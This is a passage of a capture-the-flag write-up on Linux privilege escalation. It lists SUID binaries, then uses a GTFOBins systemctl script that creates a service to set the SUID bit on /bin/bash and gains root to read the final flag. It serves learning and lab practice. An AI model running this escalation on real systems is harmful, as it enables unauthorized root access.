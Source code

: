 We can use the following command to list SUID files:

```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
```

```bash
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
```

/bin/systemctl stands out, at it is used to control and monitor services!

#### 5.2 - Become root and get the last flag (/root/root.txt)

We can use script of this website to became a root, in this case we choose systemctl process [https://gtfobins.github.io/gtfobins/systemctl/](https://gtfobins.github.io/gtfobins/systemctl/)\


```bash
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c “chmod +s /bin/bash”
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

```bash
whoami
root
cat /root/root.txt
```

<details><summary>🚩Reveal Flag2 [root.txt]</summary></details>



